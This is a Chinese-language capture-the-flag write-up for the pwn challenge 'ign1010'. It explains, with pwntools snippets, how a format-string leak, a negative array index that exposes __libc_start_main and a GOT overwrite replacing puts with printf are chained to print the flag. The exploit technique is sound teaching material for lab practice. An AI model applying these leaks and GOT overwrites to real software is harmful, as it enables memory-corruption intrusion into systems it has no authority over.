 # 8. ign1010

## Writeup

format string 印出的順序

| rsi      | %1$p |
| -------- | ---- |
| rdx      | %2$p |
| rcx      | %3$p |
| r8       | %4$p |
| r9       | %5$p |
| rsp      | %6$p |
| rsp+0x8  | %7$p |
| rsp+0x10 | %8$p |
| ...      | ...  |

<aside>
💡 這題本身會把 flag file 打開，並且存入到 text array 當中，因此我們可以透過 return into libc + format string 的方式來把 flag 印出來。

</aside>

### Step

1. 我們觀察到open file以後，flag 會從 rsp+0x10 的地方開始，因此我們的 format string 會從 %8$p**(rsp+0x10)** 開始 print。所以我們先進入 edit_info()，我們希望在 game1010[0] 的 name這個 item 寫入我們的 format string，因此我們將 idx 設為 0，choice 設為 1
    
    ![9d3dc7e7-f8e5-4047-9fc1-910e91d67035.jpg](../img/9d3dc7e7-f8e5-4047-9fc1-910e91d67035.jpg)
    
    ```python
    #透過format string的方式在game1010[0]的name塞入flag的值
    p.sendlineafter(b'> ', str(2))
    p.sendlineafter(b'idx> ', str(0))
    p.sendlineafter(b'4.comment\n> ', str(1))
    p.sendlineafter(b'Content:', b'%8$p %9$p %10$p %11$p %12$p %13$p')
    ```
    
2. 我們希望可以得到libc的base address，因此我們找到"__libc_start_main"的address在game1010往前256byte的地方，而一個game1010的element為128byte，因此我們從game1010[-2]即可得到"__libc_start_main"的address。所以我們會再做一次edit_info()，並且將idx設為-2，如此我們就可以從終端機拿到"__libc_start_main"的address。
    
    ```python
    #取得"__libc_start_main"的address。
    p.sendlineafter(b'> ', str(2))
    p.sendlineafter(b'idx> ', str(-2))
    p.recv(13)
    addr = p.recv(6)
    print(addr)
    main_addr = int.from_bytes(addr, byteorder='little')
    ```
    
3. 得到"__libc_start_main"的address後，我們可以推算出libc的base在哪裡，並且透過libc的base找到printf的address。
    
    ```python
    #計算printf_plt的address
    main_offset = l.symbols["__libc_start_main"]
    print(hex(main_offset))
    printf_offset = l.symbols["printf"]
    print(hex(printf_offset))
    libc_base = main_addr - main_offset
    print(f"libc_base => {hex(libc_base)}")
    printf_plt = libc_base + printf_offset
    print(f"printf_plt => {hex(printf_plt)}")
    ```
    
4. 找到printf的address以後，我們透過game1010[-2]的wiki可以將libc中的puts改為printf，如此一來在main func中的puts都會被改為printf。
    
    ![fe28d058-86c1-4130-8100-4e4c6e50ce33.jpg](../img/fe28d058-86c1-4130-8100-4e4c6e50ce33.jpg)
    
    ![puts@GLIBC的位址在game1010[-2].wiki的地方，因此我們將game1010[-2].wiki改為printf的address](../img/bff01baa-8da7-4928-9d1c-9388cea47505.jpg)
    
    puts@GLIBC的位址在game1010[-2].wiki的地方，因此我們將game1010[-2].wiki改為printf的address
    
5. 將 puts 改為 printf 後，我們可以在 main function 的 for loop 中 i=0 的位置，把我們的flag印出來。
    
    ![Untitled](../img/Untitled%2027.png)
    
    ![16進位的flag](../img/a74facf3-2293-4480-8b26-e3755cc01965.jpg)
    
    16進位的flag
    
6. 由於這個編碼為16進位的編碼，因此我們將這個編碼轉為 utf8，如此就可以得到 flag
    
    ![9417d499-f875-4a42-9556-975aad3d0c7e.jpg](../img/9417d499-f875-4a42-9556-975aad3d0c7e.jpg)
    